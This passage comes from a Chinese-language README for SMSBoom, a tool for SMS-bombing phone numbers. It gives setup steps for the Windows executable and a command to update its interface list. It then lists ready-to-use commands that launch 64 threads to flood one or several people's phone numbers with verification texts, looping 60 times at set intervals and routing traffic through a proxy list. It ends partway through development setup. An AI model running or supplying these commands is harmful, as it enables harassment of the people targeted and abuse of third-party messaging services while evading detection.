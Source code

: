 2. `Win`+`R` 打开cmd.输入存放的盘符.例如: `E:` 然后cd到文件夹,例如 `cd SMS`
![img](https://cdn.jsdelivr.net/gh/OpenEthan/SMSBoom@master/img/cmd1.png)

3. 确认 cmd 路径是 EXE 所在路径后,cmd 输入:`smsboom_pyinstall.exe`,若出现命令提示,则说明脚本已正常运行.
![img](https://cdn.jsdelivr.net/gh/OpenEthan/SMSBoom@master/img/cmd2.png)

4. 使用前必须更新一遍最新接口

```shell
smsboom.py update
```

> 若更新接口出现错误 `ssl_`, 请参见 [issue](https://github.com/OpenEthan/SMSBoom/issues/2) **关闭代理软件**再 update.

5. 传递命令示例

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.py run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
```

### Development

1. Download 下载项目

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```

2. 配置虚拟环境 Deploy Virtual Envirement  

**前提条件:** 请确保自己的电脑有 `python3.x` 的环境,推荐使用 `3.8` 及以上!  

#### 使用 pipenv

1. 安装 pipenv 包管理工具.  

